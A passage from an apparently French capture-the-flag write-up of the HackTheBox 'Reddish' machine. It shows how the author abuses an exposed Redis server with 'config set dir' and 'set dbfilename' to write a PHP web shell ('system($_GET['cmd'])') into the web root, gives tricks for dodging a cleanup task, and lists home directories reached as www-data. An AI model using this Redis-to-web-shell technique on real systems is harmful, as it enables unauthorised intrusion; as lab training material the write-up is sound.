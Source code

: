 ```python
```

Malheureusement pas de serveur SSH accessible ici, l’intérêt est donc très limité. En revanche la présence du serveur web nous incite à tester l'autre scénario consistant à écrire du code PHP sous la racine web */var/www/html*.  

Pour celà on envoie les commandes suivantes au Redis :  

```plain
config set dir /var/www/html
set dbfilename devloop.php
set payload "<?php system($_GET['cmd']); ?>
save
```

A noter que payload est un nom de clé pris pour l'exemple, on peut mettre ce que l'on veut. Le Redis acquiesce sans broncher (série de réponses OK) puis on obtient finalement notre shell.  

![HackTheBox Reddish CTF Redis exploitation leading to PHP backdoor](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/reddish/reddish_www_container.png)

J'ai toutefois noté deux problèmes récurrents :  

* L'existence d'autres clés/valeurs dans le Redis peut mener à un fichier PHP avec des problèmes d'encodage qui ne sera alors pas interprété :(
* Une tâche semble supprimer le fichier uploadé rapidement

Pour régler le premier problème j'ai mis un commentaire ouvrant à la fin de mon script PHP et omis de le fermer (tout comme le tag PHP). PHP est en effet assez permissif, il faillait exploiter l'une de ces caractéristiques pour résoudre [le CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub).  

Pour le second problème j'ai vu que les dotfiles ne semblent pas supprimées par la tache, il suffit donc de préfixer notre nom de fichier par un point.  

Sur cette machine où l'on dispose de droits restreints (www-data) on peut voir les dossiers personnels de deux utilisateurs du système :  

```plain
/home:
total 32
drwxr-xr-x 5 root root  4096 Jul 15  2018 .
drwxr-xr-x 1 root root  4096 Jul 15  2018 ..
drwxr-xr-x 2 1001 1001  4096 Jul 16  2018 bergamotto
drwx------ 2 root root 16384 Apr  1  2018 lost+found
drwxr-xr-x 2 1000 1000  4096 Jul 16  2018 somaro

/home/bergamotto:
total 20
drwxr-xr-x 2 1001 1001 4096 Jul 16  2018 .
drwxr-xr-x 5 root root 4096 Jul 15  2018 ..
lrwxrwxrwx 1 root root    9 Jul 16  2018 .bash_history -> /dev/null
-rw-r--r-- 1 1001 1001  220 May  2  2018 .bash_logout
-rw-r--r-- 1 1001 1001 3771 May  2  2018 .bashrc
-rw-r--r-- 1 1001 1001  655 May  2  2018 .profile

/home/somaro:
total 24
drwxr-xr-x 2 1000 1000 4096 Jul 16  2018 .
drwxr-xr-x 5 root root 4096 Jul 15  2018 ..
lrwxrwxrwx 1 root root    9 Jul 16  2018 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Apr 23  2018 .bash_logout
-rw-r--r-- 1 1000 1000 3771 Apr 23  2018 .bashrc
-rw-r--r-- 1 1000 1000  655 Apr 23  2018 .profile
-r-------- 1 1000 1000   33 Apr 23  2018 user.txt
```
